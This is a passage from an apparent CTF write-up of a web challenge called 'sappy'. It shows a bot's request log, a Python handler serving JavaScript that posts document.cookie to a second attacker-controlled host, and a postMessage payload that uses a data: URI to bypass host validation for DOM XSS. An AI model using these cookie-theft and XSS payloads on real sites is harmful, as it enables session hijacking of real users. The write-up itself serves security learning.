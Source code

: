 ```
Connection: keep-alive
Priority: u=1, i
Referer: https://feof-hydraulic-nz-faculty.trycloudflare.com/
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 34.140.116.216
X-Forwarded-Proto: https


127.0.0.1 - - [16/Feb/2025 13:16:08] "GET /favicon.ico HTTP/1.1" 200 -

```

Okay, a lot to unpack.

### Redirect method through initial GET request from bot

From the first response captured we see that the bot accepts html responses - which can be used for javascript.

Try to redirect to another one of my controlled sites to see if I can get the cookie through another method. The below sends an html code with javascript that will send the bots cookies to a second public address I have control over and can monitor requests.

```
# Send a simple response
self.send_response(200)
self.send_header('Content-type', 'text/html')
self.end_headers()
self.wfile.write(b"<h1>hello<script>fetch('https://jewish-banner-tribal-grace.trycloudflare.com',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'stuff: '+document.cookie});</script></h1>")

```

This route results in no cookies :(

### DOM XSS

Looking at the source code for the challenge there is an iframe in use behind each of the clickable buttons that sends a fetch request to the pages.json file on the server and then writes the results of that request to the page directly.

In the sap.js file, we see the event handler that manages the fetch behind the iframe content in addition to buildUrl and validate the host. To summarize, through the event listener we can modify where the fetch request goes. The key vulnerability in this process lies under the validate(host) function. Specifically, the URI scheme of http or https is not enforced so we can bypass the validation and send pure data containing our XSS payload with a data: URI:

```
iframe.contentWindow.postMessage(JSON.stringify({ method: 'initialize', host: 'data://sappy-web.2024.ctfcompetition.com'}), '*')
```
